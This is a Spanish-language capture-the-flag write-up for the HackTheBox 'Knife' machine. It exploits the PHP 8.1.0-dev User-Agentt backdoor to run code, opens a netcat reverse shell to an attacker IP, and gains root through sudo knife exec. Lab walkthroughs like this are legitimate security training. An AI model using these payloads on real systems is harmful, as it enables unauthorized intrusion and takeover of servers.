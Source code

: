 ```yaml
---
layout: post
title:  "HackTheBox - Knife"
author: erik
categories: [ HTB ]
image: https://user-images.githubusercontent.com/47476901/155027848-ef97c64e-42e1-4866-bee6-1372c5ea449d.png
beforetoc: ""
toc: false
tags: [ HTB, GTFOBINS, Linux ]
---
```

Maquina Linux nivel facil

# Table of Contents
1. [Enumeración](#enumeracion)
2. [Explotación](#explotacion)
3. [Escalación de Privilegios](#escalacion)

---

## Enumeración: <a name="enumeracion"></a>

**Puertos:**
- 22  ssh  OpenSSH 8.2p1
- 80  http  Apache httpd 2.4.41 (Ubuntu)


Analizando la web encontramos una vulnerabilidad en la version del php.
Dicha vulnerabilidad nos permite ejecutar codigo albitrario en el "User Agent"

*VULNERABILIDAD*

- Versión: PHP 8.1.0-dev
- RCE in "User Agent"
- <a href="https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py" target="_blank">Source</a>


Una vez hemos encontrado la vulnerabilidad procedemos a explotarla.
Usaremos BurpSuite y interceptamos una petición normal del servidor a nuestro proxy

Usaremos el User Agent que nos permitirá hacer un RCE en el servidor.

- User-Agentt: zerodiumsystem('id');

![RCE-test](https://user-images.githubusercontent.com/47476901/132779370-39ddc518-e9cb-4474-bb62-5644fc1c5add.png)

## Explotación: <a name="explotacion"></a>

Ya hemos comprobado que funciona, ahora toca explotarla y darnos la reverse a nuestra maquina.

- Usaré la reverse shell de "NetCat"
```
User-Agentt: zerodiumsystem('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.201 1234 >/tmp/f');
```

![RCE-revshell](https://user-images.githubusercontent.com/47476901/132779376-85a24bde-8d38-4a4d-a19c-517e56276839.png)


## Escalación de privilegios: <a name="escalacion"></a>

Flag de user

![user txt](https://user-images.githubusercontent.com/47476901/132779381-b45d0e59-91c5-41da-a544-88b6caeeee9f.png)


Observando que permisos tiene el usuario, nos damos cuenta que puede correr un binario como root.

- /usr/bin/knife

![Binario](https://user-images.githubusercontent.com/47476901/132779384-f4ac9a1b-e287-476f-b1b1-b56a95118219.png)

Mirando como funcionaba este binario en el manual de ayuda encontré algo que llamaba la atención y vi que se podian ejecutar scripts con la extensión "exec"

![Help-exec](https://user-images.githubusercontent.com/47476901/132779390-436fdceb-a41d-4fb5-aa02-ca947e38b506.png)

Ya hemos encontrado algo util y llamativo para ejecutar comandos como root, al poder ejecutar scripts en este binario (que se ejecutan como root) procedemos a implementar un script que nos proporcione una shell 

Usamos el siguiente comando y obtenemos shell de root:
```bash
sudo /usr/bin/knife exec --exec "exec '/bin/bash'"
```

![GettingRoot](https://user-images.githubusercontent.com/47476901/132779395-f6582e92-ca1d-4cd0-8002-18c763338484.png)

Flag de root

![root txt](https://user-images.githubusercontent.com/47476901/132779400-a834c2be-b015-45c9-9879-6593bb8dbe37.png)

#### Maquina Completada
